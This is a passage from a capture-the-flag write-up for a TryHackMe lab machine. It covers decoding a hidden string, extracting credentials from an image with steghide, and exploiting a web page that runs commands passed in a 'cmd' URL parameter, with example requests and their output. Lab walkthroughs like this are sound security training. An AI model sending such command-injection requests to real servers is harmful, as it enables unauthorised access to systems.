 ```
		<title>Recovery Page</title>
		<style>
			body{
				text-align: center;
			}
		</style>
	</head>
	<body>
		<h1>Hello Jack! Did you forget your machine password again?..</h1>	
		<form action="/recovery.php" method="POST">
			<label>Username:</label><br>
			<input name="user" type="text"><br>
			<label>Password:</label><br>
			<input name="pass" type="password"><br>
			<input type="submit" value="Submit">
		</form>
		<!-- [REDACTED] -->
		 
	</body>
</html>
```
Dropping the string into cyberchef (https://gchq.github.io/CyberChef/), it automatically detected the string was base32. However, I needed to do some manual testing to find it was both base32 encoded and ROT13 encoded. The decoded string pointed to credentials that were stored on the homepage with a hint. 
```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```
Based on the hint, the credentials must be stored within one of the jpg images located on the site using steganography. I downloaded all 3 images and ran steghide on each. The header appeared to be the image with the credentials stored, called cms.creds, within. For steghide (http://steghide.sourceforge.net/documentation/manpage.php), I used the password found on the homepage as the passphrase.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ steghide extract -sf header.jpg 
Enter passphrase: 
wrote extracted data to "cms.creds".
ajread@aj-ubuntu:~/TryHackMe/practice$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: [REDACTED]
Password: [REDACTED]
```
With the credentials, I went back to the recovery page to login. Out of curiosity, I also tried to ssh with the user credentials and was unsuccessful.

After I logged in, I was prompted with a page that only says: ```GET me a 'cmd' and I'll run it for you Future-Jack.```. Could this site be vulnerable to directory traversal and code injection? Could it be?? It looked like I had to use some ```cmd=``` within the url to navigate around the machine.  I first ran ```http://[REDACTED]:22/nnxhweOV/index.php?cmd=id``` to test directory traversal/code injection and it worked!
```
GET me a 'cmd' and I'll run it for you Future-Jack. uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I needed to move over to user jack in order to get the first flag. I looked around on the site to see if there are any credentials hidden anywhere for jack. There appeared to be none. When I moved over to the ```/home``` directory of the machine using ```http://[REDACTED]:22/nnxhweOV/index.php?cmd=cd /home;ls``` I found something interesting: a file named ```jacks_password_list```. Maybe these are possible passwords for user jack? 

